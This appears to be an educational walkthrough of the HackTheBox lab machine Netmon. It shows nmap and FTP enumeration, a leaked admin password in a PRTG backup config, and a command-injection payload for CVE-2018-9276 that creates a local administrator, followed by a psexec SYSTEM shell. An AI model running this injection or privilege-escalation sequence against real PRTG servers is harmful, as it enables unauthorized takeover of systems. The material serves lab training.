


# Exercise: Enumerating vulnerabilities caused by default applications in the box Netmon


In this machine, the application PRTG Network Monitor has been installed and the demo features have not been removed or disabled. The vulnerability here allows remote command execution through a demo feature in the product.

Scanning the machine with nmap you get the following output:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Netmon]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- netmon.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19 12:18AM 1024 .rnd
| 02-25-19 10:15PM <DIR> inetpub
| 07-16-16 09:18AM <DIR> PerfLogs
| 02-25-19 10:56PM <DIR> Program Files
| 02-03-19 12:28AM <DIR> Program Files (x86)
| 02-03-19 08:08AM <DIR> Users
|_02-25-19 11:49PM <DIR> Windows
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

We can see that the box is likely running Windows Server 2008 R2 and that it allows anonymous FTP access to the entire main drive. The other thing to note is that there is a web server on port 80 which is running the application PRTG Network Monitor.

The website offers a login page


Searching the internet for information about PRTG and where it may store configuration information, you find that configuration information should be in c:\ProgramData\Paessler\PRTG Network Monitor \(alternatively, a quick bit of searching in FTP uncovers this\). There you find some configuration files, including what looks like a backup.

```bash
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
10-22-20 10:46PM <DIR> Configuration Auto-Backups
10-22-20 10:05PM <DIR> Log Database
02-03-19 12:18AM <DIR> Logs (Debug)
02-03-19 12:18AM <DIR> Logs (Sensors)
02-03-19 12:18AM <DIR> Logs (System)
10-23-20 12:00AM <DIR> Logs (Web Server)
10-22-20 10:10PM <DIR> Monitoring Database
02-25-19 10:54PM 1189697 PRTG Configuration.dat
02-25-19 10:54PM 1189697 PRTG Configuration.old
07-14-18 03:13AM 1153755 PRTG Configuration.old.bak
10-23-20 07:10AM 1723779 PRTG Graph Data Cache.dat
02-25-19 11:00PM <DIR> Report PDFs
02-03-19 12:18AM <DIR> System Information Database
02-03-19 12:40AM <DIR> Ticket Database
02-03-19 12:18AM <DIR> ToDo Database
```

We can use mget PRTG\* to copy all of the configuration files to our local machine. Looking at "PRTG Configuration.old.bak" first, you find the following information:

```text
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

Trying this on the login page doesn't work but looking at the format of the password and updating the year to PrTg@dmin2019 gets us in!

Once in, you can see that the version of PRTG is 18.1.37.13946, which is the same information that nmap gave us in the output above. Looking around the app, you can see the release notes for the application with a warning about the current version


.This particular vulnerability doesn't really help us \(although it may have been a reason for the plain text password in the backup configuration file?\). So you need to look for other vulnerabilities. Searching for vulnerabilities for PRTG, you find a highly critical vulnerability CVE-2018-9276[\[6\]]() that allows remote code execution. The vulnerability is related to a demo script that is included with the product that is vulnerable to command injection. When creating a notification in the system, one action that can be selected is to run an executable and of the two options provided one is a PowerShell script OutFile.ps1. This takes a parameter of a file name but if you add a "\|" after the file name, you can add any other PowerShell commands. you can then create a new user and add them to the administrator group using the parameter:

```bash
afile.txt | net user rin password123! /add ; net localgroup administrators rin /add
```

To create a Notification, you go into the menu Setup &gt; Account Settings &gt; Notifications



.Clicking the + button to create a new notification and leave everything as default but select Execute Program:



Select the Demo.exe notification outfile.ps1 and enter our crafted command as the Parameter. In the Notifications list, click the menu button on the right and then the bell icon from the popup menu


Once you have done this, you can login using Impacket's psexec.py

```bash
┌─[rin@parrot]─[~/boxes/Netmon/CVE-2018-9276]
└──╼ $psexec.py rin:'password123!'@10.10.10.152
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file mirjPmkK.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NeIi on 10.10.10.152.....
[*] Starting service NeIi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```

We could also have logged in using evil-winrm as the user "rin" or instead of creating a user, run a PowerShell command to get a reverse shell.

